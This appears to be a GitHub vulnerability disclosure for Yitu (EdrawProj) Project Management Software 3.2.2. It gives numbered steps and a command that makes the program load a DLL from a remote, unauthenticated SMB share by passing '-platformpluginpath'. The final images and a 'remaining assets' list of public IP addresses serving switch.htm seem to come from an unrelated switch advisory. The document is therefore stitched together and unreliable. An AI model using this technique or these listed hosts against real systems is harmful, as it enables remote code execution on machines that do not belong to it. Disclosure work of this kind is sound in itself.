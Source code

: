 # Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability

## Overview
Manufacturer's address：[(https://www.wondershare.cn/)]
## Vulnerability impact
Yitu Project Management Software 3.2.2
## Vulnerability location
-platformpluginpath  \\172.16.2.88\shared
## Vulnerability details
Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability.Attackers exploit the feature of directories being able to remotely share folders. When launching the qt program, they add the - platformpluginpath parameter to specify that the qt plugin loads the directory, thereby achieving the goal of remote code execution 
## Vulnerability verify
[(http://61.141.114.15:10034/index.htm)]
1.Create a shared folder on Windows, and add everyone to the shared folder security settings
<img width="185" alt="image" src="https://github.com/zty007666/Shenzhen-Yitu-Software-Yitu-Project-Management-Software/assets/26759286/219b9cdf-4d73-4f5a-b031-0860acf4f574">
2.Both sharing and advanced sharing require setting everyone full control permissions
<img width="220" alt="image" src="https://github.com/zty007666/Shenzhen-Yitu-Software-Yitu-Project-Management-Software/assets/26759286/32022397-a9f2-4c5e-a350-81b73508999b">
3.Shared password protection turned off
<img width="199" alt="image" src="https://github.com/zty007666/Shenzhen-Yitu-Software-Yitu-Project-Management-Software/assets/26759286/b021e4bf-aa22-4a33-a2c7-3c5534a3ccdd">
<img width="332" alt="image" src="https://github.com/zty007666/Shenzhen-Yitu-Software-Yitu-Project-Management-Software/assets/26759286/a432613e-6ae4-40c8-a6fc-bbb0471d2f1a">
<img width="284" alt="image" src="https://github.com/zty007666/Shenzhen-Yitu-Software-Yitu-Project-Management-Software/assets/26759286/00ff9d47-72b2-4d6f-b90b-d9a544b88bdd">
4.Shared machine IP
![Alt text](image-5.png)
5.Verify that the machine opens the shared folder and confirms that there is an imageformats folder under the shared folder, and that there is an exp.dll verification file inside the imageformats folder.Be sure to open it through the resource manager \\The shared folder under 172.16.2.88 does not require account and password verification.
![Alt text](image-6.png)
6.Confirm the installation path for Wanxing Technology's Yitu project management
![Alt text](image-8.png)
7.The default installation path for verifying the machine is "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe".Please refer to the actual path for verifying the machine for details
8.Win+r ->cmd ->Execute the following command (the IP below is based on the actual verified IP of the machine that opened the shared folder, and the name of the shared folder can be modified according to the actual situation if there are no special requirements) "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe" - platformpluginpath \ \ 172.16.2.88\shared.Wait for the program to open and see the calc.exe process pop up
![Alt text](image-9.png)
9.Use the tool to view the launched Yitu project management process and load those DLLs. The ProcessHacker tool is used here
![Alt text](image-10.png)
10.You can see that the exp.dll has been loaded into the remote shared folder under imageformats, and verification has been successful

<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/3b5a0bd1-a3a1-409c-aafa-f1e44257bca8">
<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/cff04fd3-40d0-4b16-ae41-98225501c432">
<img width="416" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/5b0ab660-d01c-4c1d-b5a3-5018d30996ea">
## remaining assets
http://113.116.145.214:10034/switch.htm
http://180.107.158.225:88/switch.htm
http://119.123.77.93:1033/switch.htm
http://61.141.114.15:10034/switch.htm
http://112.242.125.67:2222/switch.htm
http://59.45.111.251:10000/switch.htm
http://61.181.77.26:8091/switch.htm
http://119.123.77.93:1033/switch.htm
http://218.8.101.251:8010/switch.htm
http://112.26.136.90:8890/switch.htm
http://60.165.53.178:8813/switch.htm
http://112.242.125.67:2222/switch.htm
http://60.165.53.178:8812/switch.htm
http://60.165.53.178:8814/switch.htm
